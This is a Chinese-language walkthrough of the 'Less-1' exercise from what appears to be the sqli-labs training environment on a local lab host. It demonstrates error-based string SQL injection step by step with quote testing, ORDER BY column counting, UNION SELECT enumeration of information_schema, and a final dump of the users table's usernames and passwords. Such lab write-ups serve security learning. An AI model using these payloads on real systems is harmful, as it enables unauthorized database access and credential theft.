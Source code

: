 # Less-1

## 0x00 注入

http://192.168.0.105/vulnlab/sqli/Less-1/index.php?id=1

添加一个单引号。

?id=1'

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

可以看出，参数id在sql语句中被单引号包括。

?id=1' order by 4--+

Unknown column '4' in 'order clause'

?id=1' order by 3--+

正常

使用order by猜测字段数，--+用来注释掉单引号和其他字符。

显然，这里的字段数有3个。

?id=-1' union select 1,2,3--+

![image-20210112164946461](D:\WEB安全\笔记\image\image-20210112164946461.png)

可以看到，显位只有2，3。

?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

![image-20210112165228215](D:\WEB安全\笔记\image\image-20210112165228215.png)

information_schema 是一个数据库，用来存储数据库信息。

group_concat()函数可以将所有数据打印出来。

不用group_concat()就只能看到一个。

?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+

![image-20210112165512418](D:\WEB安全\笔记\image\image-20210112165512418.png)

?id=-1' union select 1, group_concat(username), group_concat(password) from users--+

![image-20210112165611724](D:\WEB安全\笔记\image\image-20210112165611724.png)



## 0x01 分析

报错型注入，参数类型是字符串。